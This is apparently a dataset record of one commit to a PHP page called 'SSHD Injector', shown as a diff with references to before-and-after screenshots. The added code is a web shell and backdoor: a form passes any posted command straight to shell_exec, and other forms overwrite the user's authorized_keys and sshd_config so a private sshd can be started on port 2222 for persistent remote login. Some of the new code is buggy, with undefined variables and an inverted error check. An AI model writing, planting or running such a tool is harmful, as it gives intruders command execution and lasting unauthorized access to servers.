

Before and after one commit to Giraudux/giraudux-toolkit, a PHP site: page /sshd_injector.php in a window 1280 px wide. Shown: the top 606 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
implement forms

```diff
--- a/ssh/sshd_injector.php
+++ b/ssh/sshd_injector.php
@@ -1,19 +1,72 @@
 <!DOCTYPE html>
 <!-- Alexis Giraudet -->
 <?php
+
+$sshd_bin = "sshd"; //line5
+$ssh_keygen_bin = "ssh-keygen"; //line6
+
 $home = getenv("HOME");
 if($home === FALSE)
 {
     $home = ".";
 }
+
+$path = getenv("PATH");
+if($path === FALSE)
+{
+    $path = ".";
+}
+
 $ssh_path = $home."/.ssh";
 $authorized_keys = $ssh_path."/authorized_keys";
 $sshd_path = $home."/.ssh";
 $sshd_config = $sshd_path."/sshd_config";
 $sshd_hostkey = $sshd_path."/ssh_host_key";
 $sshd_pidfile = $sshd_path."/sshd.pid";
-$sshd_port = 2222;
-$sshd_default_config_content = "Port ".$sshd_port."\nHostKey ".$sshd_hostkey."\nUsePrivilegeSeparation no\nPidFile ".$sshd_pidfile."\n";
+
+$ssh_path_exist = @is_dir($ssh_path);
+$authorized_keys_exist = @is_file($authorized_keys);
+$sshd_path_exist = @is_dir($sshd_path);
+$sshd_config_exist = @is_file($sshd_config);
+$sshd_hostkey_exist = @is_file($sshd_hostkey);
+$sshd_pidfile_exist = @is_file($sshd_pidfile);
+
+$sshd_default_config_content = "Port 2222\nHostKey ".$sshd_hostkey."\nUsePrivilegeSeparation no\nPidFile ".$sshd_pidfile."\n";
+
+function prepare_dir($dir)
+{
+    if(@is_dir($dir))
+    {
+        return TRUE;
+    }
+    return @mkdir($dir);
+}
+
+function prepare_ssh_dir()
+{
+    return prepare_dir($ssh_path);
+}
+
+function prepare_sshd_dir()
+{
+    return prepare_dir($sshd_path);
+}
+
+function start()
+{
+    ;
+}
+
+function stop()
+{
+    ;
+}
+
+function clear()
+{
+    ;
+}
+
 ?>
 <html>
     <head>
@@ -21,19 +74,65 @@ $sshd_default_config_content = "Port ".$sshd_port."\nHostKey ".$sshd_hostkey."\n
         <title>SSHD Injector</title>
     </head>
     <body>
-        <p>
+        <p style="border-style: solid; border-width: medium;">
             <?php echo htmlentities(shell_exec("uname -a")); ?>
             <br>
             <?php echo htmlentities(shell_exec("id")); ?>
             <br>
-            <?php echo htmlentities("HOME = ".getenv("HOME")); ?>
+            <?php echo htmlentities("HOME = ".$home); ?>
             <br>
-            <?php echo htmlentities("PATH = ".getenv("PATH")); ?>
+            <?php echo htmlentities("PATH = ".$path); ?>
+            <br>
+            <?php echo htmlentities("sshd = ".$sshd_bin); ?>
+            <br>
+            <?php echo htmlentities("ssh-keygen = ".$ssh_keygen_bin); ?>
+            <br>
+            <table>
+                <tr>
+                    <td><?php echo htmlentities($ssh_path); ?></td>
+                    <td><?php if($ssh_path_exist){ echo "O"; } else{ echo "X"; } ?></td>
+                </tr>
+                <tr>
+                    <td><?php echo htmlentities($sshd_path); ?></td>
+                    <td><?php if($sshd_path_exist){ echo "O"; } else{ echo "X"; } ?></td>
+                </tr>
+                <tr>
+                    <td><?php echo htmlentities($authorized_keys); ?></td>
+                    <td><?php if($authorized_keys_exist){ echo "O"; } else{ echo "X"; } ?></td>
+                </tr>
+                <tr>
+                    <td><?php echo htmlentities($sshd_config); ?></td>
+                    <td><?php if($sshd_config_exist){ echo "O"; } else{ echo "X"; } ?></td>
+                </tr>
+                <tr>
+                    <td><?php echo htmlentities($sshd_hostkey); ?></td>
+                    <td><?php if($sshd_hostkey_exist){ echo "O"; } else{ echo "X"; } ?></td>
+                </tr>
+                <tr>
+                    <td><?php echo htmlentities($sshd_pidfile); ?></td>
+                    <td><?php if($sshd_pidfile_exist){ echo "O"; } else{ echo "X"; } ?></td>
+                </tr>
+            </table>
         </p>
         <form method="post" action="<?php echo basename(__FILE__); ?>">
             <fieldset>
                 <legend>Update sshd_config</legend>
-                <textarea name="sshd_config_content" required>
+<?php
+                if(isset($_POST["sshd_config_content"]))
+                {
+                    echo "<p style=\"border-style: solid; border-width: medium;\">";
+                    if((!prepare_sshd_dir()) || (file_put_contents($sshd_config, $_POST["sshd_config_content"])))
+                    {
+                        echo "Error";
+                    }
+                    else
+                    {
+                        echo "sshd-config updated";
+                    }
+                    echo "</p>";
+                }
+?>
+                <textarea name="sshd_config_content" style="width:100%" required>
 <?php
                     $sshd_config_content = @file_get_contents($sshd_config);
                     if($sshd_config_content === FALSE)
@@ -53,7 +152,22 @@ $sshd_default_config_content = "Port ".$sshd_port."\nHostKey ".$sshd_hostkey."\n
         <form method="post" action="<?php echo basename(__FILE__); ?>">
             <fieldset>
                 <legend>Update authorized_keys</legend>
-                <textarea name="authorized_keys_content" required>
+<?php
+                if(isset($_POST["authorized_keys_content"]))
+                {
+                    echo "<p style=\"border-style: solid; border-width: medium;\">";
+                    if((!prepare_ssh_dir()) || (file_put_contents($sshd_authorized_keys, $_POST["authorized_keys_content"])))
+                    {
+                        echo "Error";
+                    }
+                    else
+                    {
+                        echo "authorized-keys updated";
+                    }
+                    echo "</p>";
+                }
+?>
+                <textarea name="authorized_keys_content" style="width:100%" required>
 <?php
                     $sshd_authorized_keys_content = @file_get_contents($sshd_authorized_keys);
                     if($sshd_authorized_keys_content === FALSE)
@@ -70,5 +184,22 @@ $sshd_default_config_content = "Port ".$sshd_port."\nHostKey ".$sshd_hostkey."\n
                 <input type="submit" value="Update authorized_keys" />
             </fieldset>
         </form>
+        <form method="post" action="<?php echo basename(__FILE__); ?>">
+            <fieldset>
+                <legend>Execute command</legend>
+<?php
+                if(isset($_POST["command"]))
+                {
+                    echo "<p style=\"border-style: solid; border-width: medium;\">";
+                    echo htmlentities("$".$_POST["command"])."<br>";
+                    echo nl2br(htmlentities(shell_exec($_POST["command"])));
+                    echo "</p>";
+                }
+?>
+                <input type="text" name="command" value="find `echo $PATH | tr ':'' ' '` -name 'sshd' 2> /dev/null" style="width:100%">
+                <br />
+                <input type="submit" value="Execute" />
+            </fieldset>
+        </form>
     </body>
 </html>
```
